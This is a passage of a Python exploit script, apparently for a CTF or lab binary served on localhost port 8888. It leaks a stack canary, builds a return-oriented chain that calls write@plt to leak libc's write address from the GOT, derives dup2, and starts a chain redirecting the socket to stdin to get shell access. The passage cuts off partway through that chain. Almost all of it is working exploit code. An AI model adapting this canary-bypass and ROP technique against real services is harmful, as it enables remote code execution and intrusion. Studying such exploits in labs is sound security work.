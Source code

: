 ```lang-python line-numbers 
    leak_payload = ["y"*10,
                p(canary),
                "B"*8,
                p(ebp),
                p(0x080486e0), # write@plt
                p(0x41414141), # exit
                p(socketfd),  # socket fd
                p(address),  # write@got: address to read write@libc from
                p(4), # bytes to read
                "\n"]

    leak_payload = "".join(leak_payload)
    ss.send(leak_payload)
    leak = ss.recv(4)
    ss.close()
    return struct.unpack("<I", leak)[0]

def ask_for_key():
    print "[+] Now change gdb affinity and press any key"
    input = raw_input()

def send_mouse_attack(s, payload):
    print("[+] Reconnecting")
    time.sleep(3)
    # Receive menu
    s.recv(1024)
    s.send("4\n")
    time.sleep(1)
    # Receive are you sure?
    s.recv(1024)
    print("[+] Sending payload")
    s.send(payload)

def p(addr):
    return struct.pack("<I", addr)


if __name__ == "__main__":
    ip = '127.0.0.1'
    port = 8888
    socketfd = 4

    (canary, ebp, eip) = get_canary(ip, port)

    write_addr = leak_address(ip, port, canary, ebp, 0x804b040, socketfd)

    dup2_write_offset = 0x7d0
    dup2_addr = write_addr + dup2_write_offset

    print "[+] Leaked write address %#x" % write_addr
    print "[+] Got dup2 address %#x" % dup2_addr

    payload =   ["A"*10,
                p(canary),
                "B"*8,
                p(ebp),
                p(dup2_addr),
                p(0x080495be), # pop, pop, ret
                p(socketfd),  # fd 4
                p(0),  # fd 0
                p(dup2_addr),
                p(0x080495be), # pop, pop, ret
                p(socketfd),  # fd 4
```